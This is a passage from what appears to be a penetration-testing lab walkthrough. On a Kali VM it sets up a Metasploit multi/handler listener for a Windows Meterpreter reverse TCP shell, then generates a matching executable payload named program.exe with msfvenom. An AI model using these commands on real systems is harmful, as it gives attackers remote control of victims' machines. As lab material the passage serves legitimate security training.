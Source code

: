 <figure><img src="../../.gitbook/assets/image (448).png" alt=""><figcaption></figcaption></figure>

### Exploitation

On Kali VM:

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5.  In Metasploit (msf > prompt) type: `run`\


    <figure><img src="broken-reference" alt=""><figcaption><p>Meterpreter session waiting for reverse TCP shell</p></figcaption></figure>
6.  Open an additional command prompt and generate the payload by typing: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`\

